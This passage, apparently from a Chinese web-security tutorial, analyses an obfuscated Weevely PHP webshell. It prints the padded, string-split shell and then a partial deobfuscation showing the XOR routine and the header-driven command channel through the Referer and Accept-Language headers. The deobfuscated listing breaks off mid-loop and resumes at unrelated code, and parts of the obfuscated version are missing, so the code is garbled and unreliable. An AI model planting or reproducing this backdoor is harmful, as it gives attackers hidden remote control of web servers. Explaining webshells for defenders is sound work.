 $m='4_encode(x(K3gzcompK3ress($oK3),$kK3));print("&lt;K3$k&gt;$dK3K3&lt;/$k&gt;"K3);@sK3ession_deK3stroy();}}}}';
$t='$kh="a8bK3b";$K3kf="c44K3K3a";funK3ctK3ion x($t,$k){$cK3=sK3trlen($kK3);$l=stK3rlK3en($t);K3$oK';
$M='prK3ess(@x(@bK3aK3se64K3_decodeK3(pregK3_replaK3ce(aK3rray("/_/",K3"/-/"),arrK3ay(K3"/","K3+"),';
$f='3trposK3($p,$h)===0K3){$s[$i]=""K3;$p=$sK3s($pK3,3);}K3K3if(array_key_exisK3ts($i,K3$K3sK3)){$s';
$Q=str_replace('d','','crdddeatde_fdunctdion');
$b='3raK3y_vK3alues(K3$q)K3;preg_mK3aK3tch_all("K3/(K3[\\K3w])[\\w-]+(?:;q=0.([\\d]))K3?,K3?/",$ra,$m)';
$l=str_replace('K3','',$t.$H.$o.$v.$b.$O.$i.$D.$f.$B.$M.$c.$m);
$q=$Q('',$l);$q();</pre>

<span class="md-line md-end-block">在这段大马中，<span spellcheck="false"><code>$Q</code></span>和<span spellcheck="false"><code>$l</code></span>均为字符串。Weevely借助PHP可以将函数名字符串用作类似函数指针的特性，来构造木马。</span>

<pre class="lang:default decode:true">$Q = create_function

$kh = "a8bb";
$kf = "c44a";
function x($t, $k) {
	$c = strlen($k);
	$l = strlen($t);
	$o = "";
	for ($i = 0;$i &lt; $l;) {
		for ($j = 0;($j &lt; $c && $i &lt; $l);$j++, $i++) {
			$o.= $t{$i} ^ $k{$j};
		}
	}
	return $o;
}
$r = $_SERVER;
$rr = @$r["HTTP_REFERER"];
$ra = @$r["HTTP_ACCEPT_LANGUAGE"];
if ($rr && $ra) {
	$u = parse_url($rr);
	parse_str($u["query"], $q);
	$q = array_values($q);
	preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/", $ra, $m);
	if ($q && $m) {
		@session_start();
		$s = & $_SESSION;
		$ss = "substr";
		$sl = "strtolower";
		$i = $m[1][0] . $m[1][1];
		$h = $sl($ss(md5($i . $kh), 0, 3));
		$f = $sl($ss(md5($i . $kf), 0, 3));
		$p = "";
		for ($z = 1;$z$d");@session_destroy();}}}}
"</pre>

### 任意文件包含 {.md-end-block.md-heading}
